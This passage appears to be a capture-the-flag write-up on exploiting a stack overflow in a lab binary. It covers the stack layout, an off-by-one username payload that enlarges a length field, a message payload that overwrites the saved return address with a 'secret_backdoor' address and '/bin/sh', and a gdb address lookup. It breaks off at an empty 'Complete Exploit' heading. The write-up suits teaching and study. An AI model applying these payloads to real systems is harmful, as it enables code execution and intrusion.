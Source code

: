 ## Memory Layout Analysis

<CodeBlock 
  title="Stack Layout During Overflow"
  command="# Buffer overflow progression"
  output={`Stack layout (simplified):
[text: 140 bytes    ]  <- strncpy destination
[username: 40 bytes ]  <- off-by-one source  
[len: 4 bytes      ]  <- corrupted by overflow
[... other data    ]
[saved RIP         ]  <- final target (offset +200)

Overflow chain:
1. username[40] -> len corruption
2. strncpy(text, msg, corrupted_len)
3. text overflow -> RIP overwrite`}
/>

## Payload Construction

<CodeBlock 
  title="Exploit Payload Assembly"
  command="# Stage 1: Username with length corruption"
  output={`Username: 'B' * 40 + '\\xd4' + '\\n'
- 40 B's fill username buffer
- \\xd4 overwrites len LSB (140 -> 212)
- \\n terminates username input`}
/>

<CodeBlock 
  title="Stage 2: Message with RIP overwrite"
  command="# Message payload structure"
  output={`Message: 'B' * 200 + secret_backdoor_addr + '/bin/sh'

Components:
- 'B' * 200: Fill text buffer + reach RIP
- secret_backdoor_addr: 0x000055555555488c (little-endian)
- '/bin/sh': Command for system() call`}
/>

## Address Resolution

<CodeBlock 
  title="Finding secret_backdoor Address"
  command="(gdb) p secret_backdoor"
  output={`$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>

Little-endian representation:
0x000055555555488c -> \\x8c\\x48\\x55\\x55\\x55\\x55\\x00\\x00`}
/>

## Complete Exploit
